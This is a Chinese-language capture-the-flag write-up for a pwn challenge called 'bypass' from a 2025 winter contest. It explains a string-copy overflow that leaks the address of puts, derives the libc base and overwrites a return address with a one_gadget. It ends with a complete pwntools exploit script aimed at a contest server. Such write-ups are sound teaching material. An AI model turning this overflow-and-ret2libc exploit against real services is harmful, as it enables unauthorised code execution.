 ```yaml
---
title: 2025春秋杯冬季赛 WP
date: '2025-01-17 21:26:02'
updated: '2025-04-07 21:33:52'
---
```

## Day1 bypass
### 重点：复制越界溢出
题目给了ELF和libc文件

checksec知道amd64-little、没canary和PIE

在main函数里面发现了这两个语句会把puts函数的地址泄露出来，但是执行完之后main函数就直接结束了

![](/images/0c81431cf8517fb320c1dd98bd45df04.png)

![](/images/7e229fd7bff0be6fcab98ab9e7cbdc95.png)

main函数没什么别的地方了，后面调用了sub_400978()

这个函数里面有两次read标准输入，都是输入到s当中，两次输入之间把s清空过一次

第一次输入之后s被拷贝到s2的位置，第二次之后s被拷贝到var_210的位置

函数sub_400978();的栈帧：

![](/images/ad346b6f111fc15d4fdd57e119344f18.png)

根据xswlhhh师傅的思路，它是根据是否为零来判断字符串的结尾的，

![](/images/fdd9bd36a9cadd71968df32a8fb6410f.png)

可以利用这个来把s和s2部分的字符串连一起，

来让后面把s拷贝到var_210的时候溢出把后面的i、旧rbp和返回地址覆盖来控制执行流

exp：

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=remote("101.200.198.105",22740)
libc=ELF("libc.so.6")

link.send(p32(2))
link.recvuntil("Invalid\n")
puts_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
# print(hex(puts_addr))

libc_base=puts_addr-libc.sym['puts']
print(hex(libc_base))

ogg=libc_base+0x4f302

link.send(p32(0))
payload1=b'KEY: '+b'a'*19+p16(0x213)+p64(0xdeadbeefdeadbeef)+p64(ogg)
link.send(payload1)

sleep(1)
payload2=b'VAL: '+b'a'*0x1fb
link.send(payload2)

```